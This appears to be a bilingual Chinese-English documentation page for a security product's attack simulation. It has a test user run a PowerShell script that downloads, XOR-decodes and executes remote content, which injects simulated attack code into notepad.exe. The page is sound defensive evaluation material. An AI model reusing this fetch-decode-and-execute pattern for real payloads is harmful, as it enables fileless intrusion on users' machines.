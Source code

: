 ## <a name="run-the-attack-scenario-simulation"></a><span data-ttu-id="7d333-148">运行攻击方案模拟</span><span class="sxs-lookup"><span data-stu-id="7d333-148">Run the attack scenario simulation</span></span>

<span data-ttu-id="7d333-149">运行攻击方案模拟：</span><span class="sxs-lookup"><span data-stu-id="7d333-149">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="7d333-150">使用测试用户帐户登录到测试设备。</span><span class="sxs-lookup"><span data-stu-id="7d333-150">Log in to the test device with the test user account.</span></span>

2. <span data-ttu-id="7d333-151">在测试Windows PowerShell打开一个"打开"窗口。</span><span class="sxs-lookup"><span data-stu-id="7d333-151">Open a Windows PowerShell window on the test device.</span></span>

3. <span data-ttu-id="7d333-152">复制以下模拟脚本：</span><span class="sxs-lookup"><span data-stu-id="7d333-152">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="7d333-153">如果在 Web 浏览器中打开此文档，则可能无法复制全文而不丢失某些字符或引入额外的换行符。</span><span class="sxs-lookup"><span data-stu-id="7d333-153">If you open this document on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="7d333-154">下载此文档，在 Adobe Reader 上打开它。</span><span class="sxs-lookup"><span data-stu-id="7d333-154">Download this document and open it on Adobe Reader.</span></span>

4. <span data-ttu-id="7d333-155">在提示符下，粘贴并运行复制的脚本。</span><span class="sxs-lookup"><span data-stu-id="7d333-155">At the prompt, paste and run the copied script.</span></span>

> [!NOTE]
> <span data-ttu-id="7d333-156">如果使用远程桌面协议 (RDP) 运行 PowerShell，请使用 RDP 客户端中的"键入剪贴板文本"命令，因为 **CTRL-V** 热键或右键单击粘贴方法可能不起作用。</span><span class="sxs-lookup"><span data-stu-id="7d333-156">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="7d333-157">PowerShell 的最新版本有时也不接受该方法，您可能首先必须复制到内存中的 记事本，将其复制到虚拟机中，然后将其粘贴到 PowerShell 中。</span><span class="sxs-lookup"><span data-stu-id="7d333-157">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="7d333-158">几秒钟后，notepad.exe<i>打开。</i></span><span class="sxs-lookup"><span data-stu-id="7d333-158">A few seconds later, <i>notepad.exe</i> will open.</span></span> <span data-ttu-id="7d333-159">模拟攻击代码将注入到notepad.exe。</span><span class="sxs-lookup"><span data-stu-id="7d333-159">A simulated attack code will be injected into notepad.exe.</span></span> <span data-ttu-id="7d333-160">将自动生成的记事本实例保持打开状态，以体验完整方案。</span><span class="sxs-lookup"><span data-stu-id="7d333-160">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>
